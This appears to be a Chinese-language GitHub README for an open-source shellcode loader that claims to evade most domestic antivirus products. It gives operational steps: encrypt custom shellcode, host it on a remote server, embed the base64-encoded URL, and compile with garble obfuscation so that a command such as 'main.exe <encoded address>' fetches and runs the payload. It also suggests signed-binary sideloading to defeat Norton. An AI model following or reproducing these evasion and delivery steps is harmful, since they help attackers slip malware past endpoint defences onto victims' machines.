 # C_Sep_Loader

## Introduce

一个简单的远程分离的加载器,免杀国内大部分杀软

## How to use

### C版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

将http://example.org_base64 替换 ShellCodeLoader/Source.c 的170行，生成64位发行版即可

### Go版本

修改Encryption/payload_c_x64.py的24行，改为自己的shellcode

运行python脚本（环境python3.6）

将生成的result.txt上传到Web端（Oss,跳板等机器）

copy自己的地址如http://example.org 并进行[base64编码](https://www.base64decode.org/)

Go1.20以上,[Garble](https://github.com/burrowers/garble)，进入Go_Sep_Loader目录下使用garble进行编译

    garble -seed=random build main.go

生成出main.exe,使用方法为带参运行e.g.

    main.exe 5L2g5ZKL5Zue5LqL5bCP5LyZ5a2Q5oOz5bmy5Zib(base64编码过的地址)

## Log
2024.6.20 小更一下，~~摸会鱼~~，增加了一层url_base64编码，后续有时间再更。

2024.6.29 使用go重构项目，采用分离加载，原理同C版本。
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/b08c2b23-1199-48a1-a3a8-f217b6cffa0b)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/88721c70-28fc-4c32-a9b5-589ae29535cb)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/5c0cb532-c451-4184-a563-8b01fd160ea8)

诺顿动态还是不得行，建议白加黑（埋个小坑）

![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/21b3e4e9-e88e-4ff6-b730-6d56055306be)
![image](https://github.com/1K0ng/C_Sep_Loader/assets/156843472/855f1010-bf32-478a-bb7c-1eab413faf4c)

勉强能用

## Ps
此项目为开源项目，仅提供与学习。项目样本会在公开前由本人扔沙箱，请勿用于违法行为，造成的违法行为与本人无关；如转载请标明出处，请勿商用，请勿商用，请勿商用！！！

菜鸡本人的垃圾项目，未添加反调试反沙箱等代码，因而不保证其免杀时效。

issus暂不解答免杀的问题，技术讨论可以提issus，求抱大佬大腿.jpg.

## Contact
Email:1K0ng@proton.me 请标明来意。

## Reference

Obfuscate Go builds https://github.com/burrowers/garble

## Star History

![Star History Chart](https://api.star-history.com/svg?repos=1K0ng/C_Sep_Loader&type=Date)






